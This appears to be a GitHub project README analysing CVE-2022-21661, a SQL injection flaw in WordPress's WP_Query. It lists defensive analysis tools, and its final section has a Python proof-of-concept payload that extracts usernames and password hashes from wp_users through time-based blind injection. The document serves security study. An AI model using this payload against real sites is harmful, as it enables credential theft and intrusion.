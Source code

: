 # WordPress Security: CVE-2022-21661 Vulnerability Analysis

![WordPress Logo](https://upload.wikimedia.org/wikipedia/commons/9/98/WordPress_blue_logo.svg)

This project is a security-focused analysis of **CVE-2022-21661**, a critical SQL injection vulnerability in WordPress Core (versions < 5.8.3). The study includes in-depth technical dissection, static and dynamic vulnerability assessments, and a proof-of-concept exploit to demonstrate the impact.

---


- Understand typical security challenges in open-source platforms like WordPress.
- Analyze CVE-2022-21661: its origin, attack vector, and exploitation potential.
- Emphasize the importance of secure coding, vulnerability patching, and responsible disclosure.

---

Technical Summary

- Vulnerability:** SQL Injection via `WP_Query` due to improper input validation in `clean_query()`
- Affected Versions:** WordPress < 5.8.3
- CVSS Score:** 7.5 (High)
- Exploitation Vector:** Remote attackers can inject SQL through third-party plugins using the WP_Query interface.
- Impact: Unauthorized data access, potential data corruption, and full system compromise.

---

Tools & Techniques

 Analysis Methods
- Static Analysis:** SonarQube, PHP_CodeSniffer
- Dynamic Analysis:** OWASP ZAP, Wapiti
- Software Composition Analysis:** WPScan, Wordfence, OWASP Dependency-Check

Tools Used
| Tool | Purpose |
|------|---------|
| WPScan | Identify core/plugin vulnerabilities |
| Wordfence | Detect real-time threats |
| Dependency-Check | Analyze plugin dependencies |
| SonarQube | Static code security review |
| PHP_CodeSniffer | Enforce WP coding standards |
| OWASP ZAP | Runtime vulnerability detection |
| Wapiti | Identify header/config issues |

---

Exploit Proof-of-Concept

A time-based blind SQL injection attack was demonstrated using a crafted payload via AJAX endpoint. The script uses latency to infer character-by-character data extraction from the WordPress `wp_users` table.

```python
payload = {
    "tax_query": {
        "0": {
            "field": "term_taxonomy_id",
            "terms": [
                "(CASE WHEN (SELECT SUBSTRING((SELECT GROUP_CONCAT(id, ':', user_login, ':', user_pass, ',') FROM wp_users), %d, 1) = '%s') THEN SLEEP(5) ELSE 2070 END)"
            ]
        }
    }
}
